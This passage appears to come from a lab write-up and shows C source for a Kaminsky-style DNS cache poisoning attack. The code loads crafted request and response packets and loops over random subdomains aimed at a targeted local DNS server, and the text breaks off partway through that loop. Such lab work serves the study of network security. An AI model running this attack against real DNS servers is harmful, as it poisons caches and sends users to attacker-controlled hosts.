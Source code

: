 The final C script can be seen here:

```c
#include <stdlib.h>
#include <arpa/inet.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>

#define MAX_FILE_SIZE 1000000


/* IP Header */
struct ipheader {
  unsigned char      iph_ihl:4, //IP header length
                     iph_ver:4; //IP version
  unsigned char      iph_tos; //Type of service
  unsigned short int iph_len; //IP Packet length (data + header)
  unsigned short int iph_ident; //Identification
  unsigned short int iph_flag:3, //Fragmentation flags
                     iph_offset:13; //Flags offset
  unsigned char      iph_ttl; //Time to Live
  unsigned char      iph_protocol; //Protocol type
  unsigned short int iph_chksum; //IP datagram checksum
  struct  in_addr    iph_sourceip; //Source IP address 
  struct  in_addr    iph_destip;   //Destination IP address 
};

void send_raw_packet(char * buffer, int pkt_size);
void send_dns_request( );
void send_dns_response( );

int main()
{
  srand(time(NULL));

  // Load the DNS request packet from file
  FILE * f_req = fopen("ip_req.bin", "rb");
  if (!f_req) {
     perror("Can't open 'ip_req.bin'");
     exit(1);
  }
  unsigned char ip_req[MAX_FILE_SIZE];
  int n_req = fread(ip_req, 1, MAX_FILE_SIZE, f_req);

  // Load the first DNS response packet from file
  FILE * f_resp = fopen("ip_resp.bin", "rb");
  if (!f_resp) {
     perror("Can't open 'ip_resp.bin'");
     exit(1);
  }
  unsigned char ip_resp[MAX_FILE_SIZE];
  int n_resp = fread(ip_resp, 1, MAX_FILE_SIZE, f_resp);

  char a[26]="abcdefghijklmnopqrstuvwxyz";

  while (1) {
    // Generate a random name with length 5
    char name[5];
    for (int k=0; k<5; k++)  name[k] = a[rand() % 26];

    /* Step 1. Send a DNS request to the targeted local DNS server.
               This will trigger the DNS server to send out DNS queries */
```